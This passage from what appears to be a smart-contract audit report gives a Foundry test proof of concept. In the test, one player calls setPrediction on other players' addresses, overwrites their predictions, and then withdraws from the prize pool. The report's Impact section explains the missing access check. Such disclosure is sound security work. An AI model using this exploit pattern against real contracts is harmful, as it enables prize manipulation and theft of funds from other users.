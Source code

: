 ```Solidity
        thePredicter.withdrawPredictionFees();
        vm.stopPrank();

        vm.startPrank(player1);
        scoreBoard.setPrediction(address(player2), 1, ScoreBoard.Result.Pending);
        scoreBoard.setPrediction(address(player3), 1, ScoreBoard.Result.Pending);

        scoreBoard.setPrediction(address(player2), 2, ScoreBoard.Result.Pending);
        scoreBoard.setPrediction(address(player2), 2, ScoreBoard.Result.Pending);
        vm.stopPrank();
        //get players scores
        int8 player1score = scoreBoard.getPlayerScore(address(player1));
        int8 player2score = scoreBoard.getPlayerScore(address(player2));
        int8 player3score = scoreBoard.getPlayerScore(address(player3));

        vm.warp(1723888799); // game 3.
        vm.startPrank(player1);
        scoreBoard.setPrediction(address(player2), 3, ScoreBoard.Result.Pending);
        scoreBoard.setPrediction(address(player3), 3, ScoreBoard.Result.Pending);
        scoreBoard.isEligibleForReward(address(player1)); //is eligable.
        vm.stopPrank();
        vm.warp(1723888801); // game 3.
        vm.startPrank(organizer);
        vm.stopPrank();
      
        //player 2 realises that the results have been changed and tries to change them back.
        vm.startPrank(player2);
        scoreBoard.setPrediction(address(player2), 3, ScoreBoard.Result.First);
        vm.stopPrank();

        int8 player1score1 = scoreBoard.getPlayerScore(address(player1));
        int8 player2score1 = scoreBoard.getPlayerScore(address(player2));
        int8 player3score1 = scoreBoard.getPlayerScore(address(player3));

        //checking balance and withdrawing.
        uint256 balanceBefore = player1.balance;
        console.log("balance before withdraw:", balanceBefore);
        vm.startPrank(player1);
        thePredicter.withdraw();
        vm.stopPrank();
        uint256 balanceAfter = player1.balance;
        console.log("balance after withdraw:", balanceAfter);
        uint256 prizePoolBalance = address(thePredicter).balance;
        console.log("balance of prizePool after withdraw:", prizePoolBalance);
    }
```

## Impact

The impact of this vulnerability is that a player can change other players' predictions without their knowledge until the designated time has passed. As a result, the affected player cannot change their prediction back, leading to potential manipulation and unfair outcomes.
